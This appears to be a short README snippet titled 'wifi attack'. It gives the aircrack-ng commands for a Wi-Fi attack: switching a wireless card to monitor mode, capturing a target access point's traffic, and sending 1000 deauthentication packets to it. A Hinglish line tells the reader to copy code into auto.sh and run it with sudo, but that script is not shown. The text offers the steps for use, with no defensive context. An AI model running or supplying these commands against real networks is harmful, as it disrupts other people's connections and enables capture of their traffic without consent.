 # sudo apt update
# sudo apt install ruby -y
# sudo gem install lolcat
# airmon-ng start wlan0
# airodump-ng wlan0mon
# airodump-ng --bssid <BSSID> --channel <CH> --write capture wlan0mon
code copy kr ke auto.sh file bnaye
# chmod +x auto.sh
# sudo ./auto.sh
# aireplay-ng --deauth 1000 -a <BSSID> wlan0mon


wifi attack
